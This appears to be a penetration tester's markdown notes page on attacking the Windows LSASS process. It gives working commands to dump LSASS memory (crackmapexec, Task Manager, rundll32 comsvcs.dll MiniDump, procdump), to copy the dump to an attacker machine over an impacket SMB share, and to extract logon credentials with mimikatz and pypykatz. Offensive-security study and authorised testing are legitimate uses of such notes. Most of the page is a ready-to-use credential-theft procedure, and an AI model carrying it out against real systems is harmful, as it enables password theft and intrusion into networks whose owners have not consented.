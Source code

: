 ```yaml
---
title: Attacking LSASS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking LSASS 

 LSASS stores credentials that have active logon sessions on Windows systems.  When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time.
 
## Dumping LSASS remotely

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa
```

## Dumping LSASS Locally

### Task Manager Method

The Task Manager method is dependent on us having a GUI-based interactive session with a target.

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:

Attacking LSASS

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

This is the file we will transfer to our attack host.  For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP  \\$ipAttacker\CompData
```

### Rundll32.exe & Comsvcs.dll Method

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).

Modern anti-virus tools recognize this method as malicious activity.

```powershell
# Finding LSASS PID in cmd
tasklist /svc

# Finding LSASS PID in PowerShell
Get-Process lsass

# Creating lsass.dmp using an elevated PowerShell session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
# With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp). 
```

Transfer file to attacking machine.

For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\lsass.dmp
# If you have a cmd terminal
move C:\lsass.dmp  \\$ipAttacker\CompData
```

### ProcDump from Sysinternals

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory.

Dumping the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process:

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Exploiting it from the target host (if we can load tools such as mimikatz):

```cmd-session
mimikatz.exe

# Using 'mimikatz.log' for logfile : OK
mimikatz # log

# Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::minidump lsass.dmp

# Opening : 'lsass.dmp' file for minidump...
mimikatz # sekurlsa::logonpasswords
```

Exploiting it without the capability of loading tools: take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`.  Download this file back to our attack machine.


## Crack the lsass file 

### Pypykatz

[pypykatz](pypykatz.md) parses the secrets hidden in the LSASS process memory dump.

```bash
pypykatz lsa minidump /home/path/lsass.dmp 
```


### Mimikatz

After dumping the lsaas we have procude a file lsass.dmp. We can analyze it with mimikatz:

```cmd-session
mimikatz.exe

# Using 'mimikatz.log' for logfile : OK
mimikatz # log

# Switch to MINIDUMP : 'lsass.dmp'
mimikatz # sekurlsa::minidump lsass.dmp

# Opening : 'lsass.dmp' file for minidump...
mimikatz # sekurlsa::logonpasswords
```

